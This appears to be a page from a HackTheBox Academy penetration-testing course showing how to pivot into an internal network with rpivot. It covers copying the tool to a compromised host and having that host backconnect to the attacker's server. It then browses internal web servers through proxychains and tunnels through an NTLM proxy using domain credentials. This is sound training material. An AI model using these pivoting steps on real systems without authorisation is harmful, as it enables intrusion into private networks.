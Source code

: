 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/158/section/1434
// Platform Version: V1
// Module ID: 158
// Module Name: Pivoting, Tunneling, and Port Forwarding
// Module Difficulty: Medium
// Section ID: 1434
// Section Title: Web Server Pivoting with Rpivot
// Page Title: Pivoting, Tunneling, and Port Forwarding
// Page Number: 10
-->

# Web Server Pivoting with Rpivot

**Module Name:** Pivoting, Tunneling, and Port Forwarding **Page Number:** 10

#### PIVOTING, TUNNELING, AND PORT FORWARDING

# Web Server Pivoting with Rpivot

![https://academy.hackthebox.com/storage/modules/158/77.png](https://academy.hackthebox.com/storage/modules/158/77.png)

#### Cloning rpivot

```shell-session
[!bash!]$ sudo git clone https://github.com/klsecservices/rpivot.git
```

#### Installing Python2.7

```shell-session
[!bash!]$ sudo apt-get install python2.7
```

#### Running server.py from the Attack Host

```shell-session
[!bash!]$ python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

#### Transfering rpivot to the Target

```shell-session
[!bash!]$ scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

#### Running client.py from Pivot Target

```shell-session
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

Backconnecting to server 10.10.14.18 port 9999
```

#### Confirming Connection is Established

```shell-session
New connection from host 10.129.202.64, source port 35226
```

#### Browsing to the Target Webserver using Proxychains

```shell-session
proxychains firefox-esr 172.16.5.135:80
```

![https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png](https://academy.hackthebox.com/storage/modules/158/rpivot_proxychain.png)

#### Connecting to a Web Server using HTTP-Proxy & NTLM Auth

```shell-session
python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip <IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>
```

# 

# 

#### Questions

####
